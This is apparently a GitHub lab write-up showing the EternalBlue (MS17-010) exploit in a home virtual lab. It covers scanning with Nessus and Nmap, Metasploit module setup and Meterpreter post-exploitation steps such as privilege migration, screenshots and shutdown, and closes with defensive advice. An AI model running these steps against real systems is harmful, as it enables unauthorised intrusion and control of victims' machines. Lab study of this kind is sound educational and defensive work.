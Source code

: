 # MS17-010 | EternalBlue Vulnerability Demonstration

---

**Disclaimer** 

**This activity is intended for Ethical hacking and education purposes only. Unauthorised access or testing is illegal and unethical. Always follow laws and regulations.**

---

## Lab setup & Environment

**Operating system:** Windows 10

**Virtualisation software:** Oracle virtual machine (version 7.1.0 r164728 (Qt6.5.3))

**Download Oracle Virtual Machine:**

https://www.oracle.com/au/virtualization/technologies/vm/downloads/virtualbox-downloads.html

## Virtual machines

**Windows 7 (64 bits)**

IP address: 192.168.0.141

Type: Victim

**Download Windows 7 ISO image link:**

https://archive.org/details/Windows7-iso

**Kali Linux**

Ip address: 192.168.0.78

Type: Attacker

Tools used: Nmap, Nessus, Metasploit framework

**Download Kali Linux:**

https://www.kali.org/get-kali/#kali-platforms

## Tools used:

**Nmap:** Port scanning

**Nessus:** Vulnerability scanning

**Metasploit framework (Msfconsole):** For exploitation and post exploitation

## Target Vulnerability:

**Name:** EternalBlue (MS17-010)

**CVE ID:** CVE-2017-0144

**Type:** Remote code execution

**Service affected:** SMB v1 (Port 445)

---

## Network Diagram

![Network_diagram](Screenshot/Network_diagram.png)

---

## Steps-by-steps Process
### Setup Oracle virtual box

  ![oracle_virtual_box](Screenshot/oracle_virtual_box.PNG)


### Command:
**Ping from kali Linux to windows:**

ping 192.168.0.141

**Ping from windows to kali Linux**

ping 192.168.0.78

 ![Ping Command](Screenshot/Ping_test.PNG)
 

**Successful ping**

### Nessusd start and IP address:

https://localhost:8834

![start_nessusd](Screenshot/start_nessusd.PNG)


![Normal_Scan](Screenshot/Normal_Scan.PNG)
 

### Vulnerability report

 ![Vulnerability_Report](Screenshot/Vulnerability_Report.PNG)

### Nmap 

nmap 192.168.0.141
 
 ![nmap.PNG](Screenshot/nmap.PNG)

---

## Exploitation

### Commands:

**Msfconsole**

  ![msfconsole](Screenshot/msfconsole.PNG)

**search ms1_010**

  ![search_ms17_010](Screenshot/search_ms17_010.PNG)
  
**use exploit/windows/smb/ms17_010_eternalblue**
 
 ![use](Screenshot/use.PNG)
 
**option command**
 
 ![Option_command](Screenshot/Option_command.PNG)

 
LHOST: 192.168.0.78

RHOST: 192.168.0.141 (Victim)

RPORT: 445
 
 ![meterpreter](Screenshot/meterpreter.PNG)

---
 
## Post exploitation

### Commands and their use:

**Meterpreter > getuid = Displays the username that the Meterpreter session is running as.**

 ![Get_system_information](Screenshot/Get_system_information.PNG)

 ---

### System Information

 ![system_information.PNG](Screenshot/system_information.PNG)

 
### Getting high level privilege
Meterpreter > run post/windows/manage/priv_migrate = get more privileged access

 ![privileged_access](Screenshot/privileged_access.PNG) 


### Screenshot command
 
 ![Screenshot_Command](Screenshot/Screenshot_Command.PNG)

 
### Going into Desktop
 
 ![windows_Remote_Desktop.](Screenshot/windows_Remote_Desktop.PNG)

 
### Creating folder
 
 ![creating_folder_remotely](Screenshot/creating_folder_remotely.PNG)

 
 ![Successfull_creation_of_folder](Screenshot/Successfull_creation_of_folder.PNG)
 

### Shutdown command
 
![Before_Shutdown](Screenshot/before_shutdown_command.PNG)


![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


### END

---

## For Defense

**Enable automatic updates for OS**

**Always apply latest Windows updates**

**Disable SMBv1 (For EternalBlue)**

**Powershell cmd:**

dism /online /norestart /disable-feature /featurename:SMB1Protocol

**Enable firewall/ window defender**

**Block unwanted incoming/outgoing traffic**

**Create rules to block ports (eg 445 for SMB)**

**Use of antivirus and scheduled scans**

---






